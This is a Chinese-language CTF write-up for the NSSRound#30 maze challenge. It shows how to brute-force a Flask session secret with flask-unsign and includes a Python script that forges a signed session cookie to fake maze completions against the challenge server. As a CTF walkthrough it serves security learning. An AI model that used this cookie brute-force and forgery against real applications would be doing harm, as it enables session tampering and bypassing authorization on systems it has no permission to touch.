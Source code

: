 ## [NSSRound#30 Duo]你也是迷宫高手吗

* 考点：JWT秘钥爆破
* 工具：flask-unsign

这道题需要爆破JWT的密钥，然后利用得到的秘钥重新构建jwt，将通关次数和时间进行修改，然后替换原有的cookie发送请求
有一个需要注意的点事由于提交时间只有10秒钟，所以最好直接通过脚本实现提交并捕获响应的html

jwt解析网站：[JSON Web Tokens - jwt.io](https://jwt.io/)

可以先通过抓包获取一个jwt，这里的jwt中的payload段为二进制字节，jwt-tool不能识别，爆破有问题，所以使用flask-unsign

![](./img/DUO-1.png)

填如cookie后执行命令爆破密码：

```sh
flask-unsign --unsign --cookie "eyJjb21wbGV0ZWRfbWF6ZXMiOjAsInN0YXJ0X3RpbWUiOjE3NDg1MjU5NTguODE2NjkxNH0.aDhjhg.U1PH_cd2fPgsL46kad950_bsA8E"
```

![](./img/DUO-2.png)

使用下面的这个脚本发送请求捕获html

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import time
import requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

# —— 配置区 —— #
SECRET_KEY = "supersecretkey"
TARGET_URL = "http://node7.anna.nssctf.cn:20995/"

def sign_flask_session(data: dict, secret: str) -> str:
    """
    用 Flask 的内置 SecureCookieSessionInterface 对 data 签名，
    返回可以直接当作 session cookie 的字符串。
    """
    app = Flask(__name__)
    app.secret_key = secret
    serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    return serializer.dumps(data)

def main():
    session = requests.Session()

    # 举例做一次请求，你可以放在循环里做多次
    payload = {
        "completed_mazes": 10,
        "start_time": time.time()
    }
    signed_cookie = sign_flask_session(payload, SECRET_KEY)

    # 把签名好的 session cookie 设到 requests.Session 里
    session.cookies.set("session", signed_cookie, domain="node7.anna.nssctf.cn")

    # 发送 GET 请求
    resp = session.get(TARGET_URL)
    resp.raise_for_status()

    # 输出状态码和前 200 字符做预览
    print(f"[{resp.status_code}] →", resp.text[:200].replace("\n"," "))

    # 如果你要保存最后一次的完整 HTML 到文件：
    with open("final_response.html", "w", encoding="utf-8") as f:
        f.write(resp.text)
    print("✅ 最后一次返回的 HTML 已保存到 final_response.html")

if __name__ == "__main__":
    main()
```

打开得到的html文件，可以看到如下内容：

![](./img/DUO-4.png)
